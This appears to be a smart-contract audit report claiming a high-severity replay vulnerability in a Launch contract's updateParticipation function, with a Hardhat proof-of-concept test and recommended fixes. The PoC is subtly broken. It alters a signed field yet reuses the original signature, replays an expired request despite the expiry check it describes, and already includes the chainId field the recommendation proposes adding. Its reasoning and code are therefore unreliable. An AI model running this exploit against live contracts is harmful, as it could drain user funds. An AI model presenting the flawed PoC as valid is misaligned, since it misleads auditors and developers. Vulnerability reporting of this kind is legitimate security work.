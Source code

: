 Late Infrared Bobcat

High

# Replay Attack Risk in updateParticipation

Replay Attack Risk in updateParticipation
Summary
The updateParticipation function lacks replay attack protection, allowing malicious actors to reuse expired or old signatures to execute unauthorized participation updates.

Vulnerability Detail
The function validates requests using a signature of keccak256(abi.encode(request)) but does not include:

A nonce to ensure request uniqueness.
A validity period check beyond requestExpiresAt.
Attackers can:
Intercept a valid signed request.
Re-submit the same request after requestExpiresAt if the contract only checks expiration once.
Reuse the signature for other launch groups or users if parameters overlap.
Impact
High severity. Replay attacks can lead to:

Unauthorized modifications to user participations (e.g., reducing allocations to force refunds).
Double-spending of signatures, draining funds from the contract.
Corruption of launch group data via duplicated participation entries.
Code Snippet
https://github.com/sherlock-audit/2025-02-rova/blob/main/rova-contracts/src/Launch.sol#L418
Relevant code in updateParticipation 

// No nonce or chain-specific replay protection
_validateRequestSignature(keccak256(abi.encode(request)), signature);  
Tool Used
Manual Review
POC：const { ethers } = require("hardhat");
const { expect } = require("chai");

describe("Launch Replay Attack PoC", () => {
  let launch, token;
  let owner, user, attacker;
  const chainId = 1; // Mainnet chain ID

  before(async () => {
    [owner, user, attacker] = await ethers.getSigners();

    // Deploy mock ERC20 token
    const Token = await ethers.getContractFactory("ERC20Mock");
    token = await Token.deploy("Test", "TST");
    
    // Deploy Launch contract
    const Launch = await ethers.getContractFactory("Launch");
    launch = await Launch.deploy();
    
    // Setup test environment
    await launch.initializeLaunchGroup(/* ... */);
    await token.mint(launch.address, ethers.utils.parseEther("1000"));
  });

  it("Should demonstrate replay attack", async () => {
    // Step 1: Create legitimate request
    const validRequest = {
      launchId: 1,
      launchGroupId: 1,
      userId: ethers.utils.formatBytes32String("user1"),
      prevLaunchParticipationId: 0,
      newLaunchParticipationId: 1,
      currency: token.address,
      tokenAmount: ethers.utils.parseEther("100"),
      requestExpiresAt: Math.floor(Date.now()/1000) + 3600, // 1 hour validity
      userAddress: user.address,
      chainId: chainId
    };

    // Step 2: Generate valid signature
    const signature = await user._signTypedData(
      {
        name: "Launch",
        version: "1",
        chainId: chainId,
        verifyingContract: launch.address
      },
      {
        UpdateParticipationRequest: [
          { name: "launchId", type: "uint256" },
          { name: "launchGroupId", type: "bytes32" },
          // ... include all request fields ...
        ]
      },
      validRequest
    );

    // Step 3: First execution (legitimate)
    await launch.connect(user).updateParticipation(validRequest, signature);

    // Step 4: Manipulate timestamp to pass expiration
    await ethers.provider.send("evm_increaseTime", [4000]);
    await ethers.provider.send("evm_mine");

    // Step 5: Replay with expired request
    const replayedRequest = {
      ...validRequest,
      newLaunchParticipationId: 2, // Change ID to bypass duplicate check
      requestExpiresAt: validRequest.requestExpiresAt // Keep original expired timestamp
    };

    // Should fail but succeeds due to replay vulnerability
    await launch.connect(attacker).updateParticipation(
      replayedRequest,
      signature // Original signature
    );

    // Verify double allocation
    const allocation = await launch.getUserAllocation(
      validRequest.launchGroupId,
      validRequest.userId
    );
    expect(allocation).to.equal(ethers.utils.parseEther("200")); // 2x original amount
  });
});

Recommendation

Include a nonce in UpdateParticipationRequest and validate it against a per-user nonce counter.
Add a chainId field to the request to prevent cross-chain replays.
Store used request hashes and reject duplicates:
bytes32 requestHash = keccak256(abi.encode(request));
require(!usedHashes[requestHash], "Replay detected");
usedHashes[requestHash] = true;  
Enforce strict expiration checks (block.timestamp <= requestExpiresAt).